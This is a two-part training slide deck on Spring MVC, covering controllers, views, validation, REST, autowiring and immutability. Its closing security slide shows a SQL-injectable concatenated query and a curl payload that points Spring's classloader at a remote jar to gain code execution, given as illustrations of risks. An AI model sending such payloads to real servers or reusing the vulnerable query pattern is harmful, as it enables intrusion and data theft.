

Spring MVC
Introduction
Jan Ypma
ypma@lundogbendsen.dk

A quick refresher
Remind us again about:
- Auto-wiring (
@Autowire) - Aspect-Oriented Programming (Spring AOP)
- Dynamic proxies
- CGLib
- Classpath scanning
- JAXB (XML binding)
MVC Definitions
-
Model
Structured information used / created on a page -
View
User interface for interacting with the model -
Controller
Logic binding model and view together
Spring MVC Architecture
- Model
Plain old Java classes (POJO)
Per request or session - View
Pluggable, typically JSP pages, Freemarker or Velocity - Controller
Classpath-scanned@Controller-annotated classes
Singletons
An example model class
Immutable (see advanced section)
@XmlRootElement(name = "TodoItem")
@XmlAccessorType(XmlAccessType.NONE)
public class TodoItem {
public static TodoItem create(String title) {
return new TodoItem(UUID.randomUUID(), title);
}
@XmlElement(name = "ID") private UUID id;
@NotBlank @XmlElement(name = "Title") private String title;
public String getTitle() { return title; }
public UUID getId() { return id; }
private TodoItem(UUID id, String title) { ... }
}
An example JSP view
Creating/editing a todo item
<h3>Todo item</h3>
<form:form id="form" method="post" modelAttribute="item">
<form:hidden path="id"/>
<div>
<form:label path="title">
<spring:message code="item.title" />
</form:label>
<form:input path="title" placeholder="What needs to be done?" />
<form:errors path="title" />
</div>
<div><button type="submit" class="btn">Save</button></div>
</form:form>
Supported view technologies
-
JSP (with JSTL and Spring MVC tag libraries)
Popular and documented. Many initial quirks resolved in latest JSP versions. Usually combined with Sitemesh or Tiles for layout. -
Velocity or Freemarker
Embedded templating languages, Spring integration comes with simple layout engine. -
Your own
Just write an implementation ofViewResolver
An example controller
@Controller @RequestMapping("/todos") public class CreateTodoController {
@ModelAttribute("item")
public TodoItem item() { return TodoItem.empty(); }
@RequestMapping(value="/create", method = GET)
public String showCreate() { return "/todo/create"; }
@RequestMapping(value="/create", method = POST)
public String createFromForm(@Valid @ModelAttribute("item") TodoItem item,
BindingResult result) {
if (result.hasErrors()) {
return showCreate();
} else {
todoService.save(item.withId());
return "redirect:/todos";
}
} }
Controller arguments (types)
UriComponentsBuilder- to build upLocationheadersInputStream,OutputStream- to get access to request and response streamsBindingResult- Will contain any validation errors of@Validarguments- (annotated)
Object- Model beans, url segments, ...
Controller arguments (annotations)
@ModelAttribute- refer to scoped bean in model@PathVariable- extract part of url into parameter@RequestBody- capture / unmarshal request@Valid- apply validations to bean
Return types for Controller methods
String- Logical view name to render (resolved byViewResolver)ModelAndView- Logical view to render, and a map of model beansvoid- Custom output, e.g. by usingOutputStreamdirectly@ResponseBody Object- Marshal object as XML or JSON
Java-based configuration
- Finally, a full web application without any XML files
- Building on Servlet 3.0, extend (yes, really)
AbstractAnnotationConfigDispatcherServletInitializer
This replacesweb.xml. - Refer to one or more
@Configurationclasses.
This replacesspring.xmlandspring-servlet.xml.
Java-based configuration
Advantages
- Compiler will verify type and property correctness early on
- Much more straightforward composition
- Can rely on existing Java tooling for
- Code completion
- Refactoring
- Unit testing
Internationalization and Localization
- Have a
LocaleResolverbean which picks the requestLocale - Have one or more
MessageSourcebeans with your translated texts - Use the JSP tag library to render messages
<spring:message code="item.title" /> - Also available to the standard JSTL
fmt:tag library (when usingJstlView)
Let's look at some code
Advantages
Spring MVC
- Gradual learning curve (until you reach the pixie dust magic)
- Broad access to support and internet forums
- Unified model for MVC and REST
Server-side MVC in general
- Server-side handling: less browser quirks to deal with
Disadvantages
Spring MVC
- Big. "It has become what it tried to replace."
- Annotation / AOP / Proxy magic (e.g. transactions)
- Choose between classpath scanning and XML hell
Server-side MVC in general
- Statefulness provides challenges in scalability, deployability
- Still need to deal with concurrency
- Repetition due to redirect-after-post
A note about testing
- Unit testing - Keep units small (one class), use frameworks like Mockito
- Integration testing - Keep units big (whole system), use frameworks like WebDriver and embed Jetty
- Stay away from "half a system" integration tests, e.g.
SpringJUnit4ClassRunneror@WebAppConfiguration, even tough they're tempting.- My tests are green!
- ...so what exactly did I just prove?
Securing Spring MVC with Spring Security
- Separate project, independent of Spring MVC
- Servlet filter protecting against e.g. CSRF or Session Fixation
- Declarative security in several domains
- URL patterns
- JSR-250
@RolesAllowedannotation (recommended) - Custom Spring annotations
- Java-based configuration from version 3.2
- JSP tag library for conditional display
Thank you
Jan Ypma
ypma@lundogbendsen.dk
Spring MVC
Advanced
Jan Ypma
ypma@lundogbendsen.dk
Shared mutable state
- Consider a large object tree (XML document, customer data)
class Customer { private String name; public String getName() { return name; } public void setName (String name) { this.name = name; } /* many more fields and sub-objects */ } - Just getting this from storage into heap takes 300ms
- Many concurrent requests read from it, only few affect changes to it
Cache it!
... but what about those setters?
Shared mutable state
- Given our
Customerhas at least the following fields:class Customer { private String name; private UUID id; /* getters and setters for all fields */ } - Consider the following method signature:
public void save (Customer c); - Quiz: what are the side-effects of invoking this method?
Immutability
- Making your DTO immutable
- gives the object holder uses beyond the one point in time
- allows for it to be safely passed to other threads
- allows for it to be safely cached
- Want to allow changes a DTO? Just declare a method
class Customer { public Customer changeName(String first, String last) { return new Customer (first, last, id, /* ... other ... */ ); } }
Request lifecycle
-1 Request>(DispatcherServlet)->(Controller)-2 ModelAndView>(DispatcherServlet)->(ViewResolver)-3 View>(DispatcherServlet)->(View)->(DispatcherServlet)-4 Response>(end).svg)
- Request arrives, servlet picks controller
- Controller returns model and view name
ViewResolverinstantiates view from nameViewrenders actual response
Validation
Integration between Spring MVC and Hibernate validator
- Declarative, recursive validation, e.g.
@Max(42),@NotEmpty,@EMail, ... - Automatically invoked for
@Validcontroller methods- and for service methods if using
MethodValidationPostProcessor
- and for service methods if using
- Integrated into Spring's messages and JSP tag library
NotBlank.item.title = Todo item must have a title<form:errors path="title" />
Validation in controller methods
- Define a
@Validargument: throwsMethodArgumentNotValidExceptionon validation failurepublic String handleCreate(@Valid Item item); - Define also a
BindingResultargument: receive validation errorspublic String handleCreate(@Valid Item item, BindingResult errors);- This variant is typically used for forms, so the original view can be rendered on errors.
Custom Validation
1. Define your validation annotation
@Target( { METHOD, FIELD } )
@Retention(RUNTIME)
@Constraint(validatedBy = ExistingItemIDValidator.class)
public @interface ExistingItemID {
String message() default "{nl.ypmania.demo.ExistingItemID}";
Class<?>[] groups() default {};
Class<? extends Payload>[] payload() default {};
}
Custom Validation
2. Write the implementation
public class ExistingItemIDValidator
implements ConstraintValidator<ExistingItemID, UUID> {
@Autowired
private ItemService itemService;
@Override
public void initialize(ExistingItemID constraintAnnotation) { }
@Override
public boolean isValid(UUID id, ConstraintValidatorContext context) {
return (id == null) ? true : itemService.exists(id);
}
} REST Services with Spring MVC
- Set up JAXB (for XML) and Jackson (for JSON) in your config
- Annotate your DTO's with JAXB annotations
- Just declare controller methods like with forms
- Use
@RequestBodyand@ResponseBodyto access (un)marshalled bodies - Update their
@RequestMappingwithproduces=orconsumes=if overlap with HTML UI
- Use
- Validation framework
- Need global exception handler for
MethodArgumentNotValidException - What to return when trying to PUT an invalid object?
- Need global exception handler for
REST Demo
Spring autowiring variants
- Field injection
@Autowired private ItemService itemService;- Least amount of code
- Dependency completely hidden from compiler and tests
- Invites circular references (buggy, esp. with AOP)
Spring autowiring variants
- Setter injection
private ItemService itemService; @Autowired public void setItemService(ItemService service) { this.itemService = service; }- Dependency visible in tests, but not required
- Have to choose between
public(anyone can change it) or package-private (only tests in same package can set up class) - Invites circular references
- A little more code
Spring autowiring variants
- Constructor injection
private ItemService itemService; @Autowired public MyService (ItemService service) { this.itemService = service; }- Prevents (most) circular references
- Hard dependencies declared in the type
- Easier to test (compiler will help you)
Cross-cutting request concerns
Two easy ways to add processing around requests
- Spring
HandlerInterceptor- Register in your
WebConfig.addInterceptors(...) - Callbacks before and after request
- Limited to handling within spring MVC
- Register in your
- Standard servlet filter
- Override
WebInitializer.getServletFilters() - Wraps the actual invocation, so you can do
try/catch - Can integrate Spring to other frameworks
- Override
Other security concerns
- SQL Injection
jdbc.execute("SELECT FROM USERS WHERE name = '" + name + "' AND password = '" + password + "'"); - Denial of service attacks (need not be an attack, maybe you're just popular)
- Arbitrary code execution
due to security bugs in Spring itself
curl --data "class.classLoader.URLs[0]=jar:http://dl.com/dino.jar!/" \ http://mybank.com/login
Thank you
Jan Ypma
ypma@lundogbendsen.dk